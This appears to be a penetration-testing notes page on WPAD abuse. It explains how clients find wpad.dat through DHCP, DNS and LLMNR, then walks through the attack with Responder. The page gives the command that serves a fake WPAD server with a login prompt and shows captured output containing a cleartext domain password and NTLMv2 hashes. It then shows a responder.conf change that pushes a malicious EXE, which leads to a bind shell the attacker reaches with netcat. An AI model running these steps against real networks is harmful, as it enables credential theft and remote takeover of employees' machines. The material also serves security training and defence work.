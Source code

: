 # WPAD Abuse

## WPAD

Organisations allow employees to access the internets through proxy servers to increase performance, ensure security and track traffic.Users who connected to the corporate network need to know proxy server for specific URL without doing configuration. The Web Proxy Auto-Discovery Protocol \(WPAD\) is a method used by clients to locate the URL of a configuration file using DHCP and/or DNS discovery methods. Once detection and download of the configuration file is complete, it can be executed to determine the proxy for a specified URL.

### How WPAD works <a id="how-wpad-works"></a>

The client wants to access the wpad.dat configuration file for proxy configuration. It searches computers named as “wpad” on the local network to find this file. And then following steps are carried out:

1. If the DHCP Server is configured, the client retrieves the wpad.dat file from the DHCP Server \(if successful, step 4 is taken\)
2. The wpad.corpdomain.com query is sent to the DNS server to find the device that is distributing the Wpad configuration. \(If successful, step 4 is taken\)
3. Sent LLMNR query for WPAD \(if success, go step 4 else proxy can’t be use\)
4. Download wpad.dat and use

According to the above sequence, DHCP poisoning attack can be done for the first step. DNS poisoning attack can naturally be performed for the second step. But as I pointed out at the beginning of this article, configured network devices prevent these attacks. When a query is made through the LLMNR, this request will go to every client in the network via broadcast. At this point the attacker sends his wpad.dat file to the clients, acting like a wpad server.

{% hint style="info" %}
The important thing is that WPAD protocol is built in Windows operating systems. This configuration can be seen in the LAN Settings Section of the Internet Explorer browser. With this configuration, Internet Explorer makes a WPAD name resolution query on the whole network.
{% endhint %}

## Abusing WPAD

#### Responder serves a fake WPAD Server and responds to clients’ WPAD name resolution. The client then requests the wpad.dat file from this fake WPAD Server. Responder creates an authentication screen and asks clients to enter the username and password they use in the domain. Naturally, employees write usernames and passwords used in the domain name. Finally, we can see their username and passwords.

 we serve the fake HTTP Server and wait for clear-text passwords.

```text
python Responder.py -I eth0 -wFb
```

And our victim will see the following dialog box and naturally type the username and password.

![](../../../.gitbook/assets/image%20%28260%29.png)

and we can see the clear-text passwords:

```text
---
snippet
---
[+] Listening for events...
[*] [NBT-NS] Poisoned answer sent to 10.7.7.30 for name GOOGLE.COM (service: Workstation/Redirector)
[*] [NBT-NS] Poisoned answer sent to 10.7.7.30 for name WWW.GOOGLE.COM (service: Workstation/Redirector)
[HTTP] Basic Client : 10.7.7.30
[HTTP] Basic Username : PENTESTLAB\roland
[HTTP] Basic Password : secr3tPassw0rd123!
[*] [LLMNR] Poisoned answer sent to 10.7.7.30 for name respproxysrv
[SMB] NTLMv2-SSP Client : 10.7.7.30
[SMB] NTLMv2-SSP Username : PENTESTLAB\Administrator
[SMB] NTLMv2-SSP Hash : Administrator::PENTESTLAB:1122334455667788:8EBDB974DF3D5F4FB0CA15F1C5068856:01010000000000007894C6BE2C54D201FCEDFDB71BB6F1F20000000002000A0053004D0042003100320001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D004200310032000800300030000000000000000000000000300000B39077D5C9B729062C03BB45B88B0D9EC2672C57115A1FE3E06F77BD79551D8F0A001000000000000000000000000000000000000900220063006900660073002F007200650073007000700072006F00780079007300720076000000000000000000
[SMB] Requested Share : \\RESPPROXYSRV\IPC$
[*] [LLMNR] Poisoned answer sent to 10.7.7.30 for name respproxysrv
[*] Skipping previously captured hash for PENTESTLAB\Administrator
[SMB] Requested Share : \\RESPPROXYSRV\PICTURES
[*] [LLMNR] Poisoned answer sent to 10.7.7.30 for name respproxysrv
[*] Skipping previously captured hash for PENTESTLAB\Administrator
[SMB] Requested Share : \\RESPPROXYSRV\PICTURES
[*] [LLMNR] Poisoned answer sent to 10.7.7.30 for name respproxysrv
[*] Skipping previously captured hash for PENTESTLAB\Administrator
[SMB] Requested Share : \\RESPPROXYSRV\PICTURES
```

## Backdoor with Responder

The responder is not only MiTM attack for the WPAD service. It can force victims to downloadinga malicious files by directing ze to a fake web page. Social engineering can be used to realistically prepare the web page to be used for this attack. However, the Responder itself has a fake redirect page as well. All we need to do is make a few changes to the responder.conf file. We set “Serve-HTML” and “Serve-EXE” parameters to “On”.

```text
[HTTP Server]
; Set to On to always serve the custom EXE
Serve-Always = On
; Set to On to replace any requested .exe with the custom EXE
Serve-Exe = On 
; Set to On to serve the custom HTML if the URL does not contain .exe
; Set to Off to inject the 'HTMLToInject' in web pages instead
Serve-Html = On 
```

And we’re starting to run the Responder again.

```text
python Responder.py -I eth0 -i 10.7.7.31 -r On -w On
```

Now, when the victim tries to go out to the internet, ze will only see the following page. And by chance, **the victim clicks on the Proxy Client connection and Bind downloads the CMD Shell, so we can connect to the victim’s 140 connection point with netcat.**

![](../../../.gitbook/assets/image%20%28258%29.png)



```text
nc 10.7.7.30 140 -vv
```



